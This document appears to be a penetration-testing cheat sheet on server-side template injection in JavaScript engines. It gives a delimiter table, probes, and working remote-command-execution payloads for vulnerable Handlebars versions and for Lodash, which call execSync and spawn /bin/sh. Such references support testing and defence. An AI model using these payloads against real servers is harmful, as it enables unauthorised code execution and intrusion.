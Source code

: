 # Server Side Template Injection - JavaScript

> Server-Side Template Injection (SSTI)  occurs when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In the context of JavaScript, SSTI vulnerabilities can arise when using server-side templating engines like Handlebars, EJS, or Pug, where user input is integrated into templates without adequate sanitization.

## Summary

- [Templating Libraries](#templating-libraries)
- [Handlebars](#handlebars)
    - [Handlebars - Basic Injection](#handlebars---basic-injection)
    - [Handlebars - Command Execution](#handlebars---command-execution)
- [Lodash](#lodash)
    - [Lodash - Basic Injection](#lodash---basic-injection)
    - [Lodash - Command Execution](#lodash---command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| DotJS        | `{{= }}`  |
| DustJS       | `{}`      |
| EJS          | `<% %>`   |
| HandlebarsJS | `{{ }}`   |
| HoganJS      | `{{ }}`   |
| Lodash       | `{{= }}`  |
| MustacheJS   | `{{ }}`   |
| NunjucksJS   | `{{ }}`   |
| PugJS        | `#{}`     |
| TwigJS       | `{{ }}`   |
| UnderscoreJS | `<% %>`   |
| VelocityJS   | `#=set($X="")$X` |
| VueJS        | `{{ }}`   |

## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Basic Injection

```js
{{this}}
{{self}}
```

### Handlebars - Command Execution

This payload only work in handlebars versions, fixed in [GHSA-q42p-pg8m-cqh6](https://github.com/advisories/GHSA-q42p-pg8m-cqh6):

- `>= 4.1.0`, `< 4.1.2`
- `>= 4.0.0`, `< 4.0.14`
- `< 3.0.7`

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
OR
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Lodash

[Official website](https://lodash.com/docs/4.17.15)
> A modern JavaScript utility library delivering modularity, performance & extras.

### Lodash - Basic Injection

How to create a template:

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** The template string.
- **options.interpolate:** It is a regular expression that specifies the HTML *interpolate* delimiter.
- **options.evaluate:** It is a regular expression that specifies the HTML *evaluate* delimiter.
- **options.escape:** It is a regular expression that specifies the HTML *escape* delimiter.

For the purpose of RCE, the delimiter of templates is determined by the **options.evaluate** parameter.

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>
```

### Lodash - Command Execution

```js
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

## References

- [Exploiting Less.js to Achieve RCE - Jeremy Buis - July 1, 2021](https://web.archive.org/web/20210706135910/https://www.softwaresecured.com/exploiting-less-js/)
- [Handlebars template injection and RCE in a Shopify app - Mahmoud Gamal - April 4, 2019](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
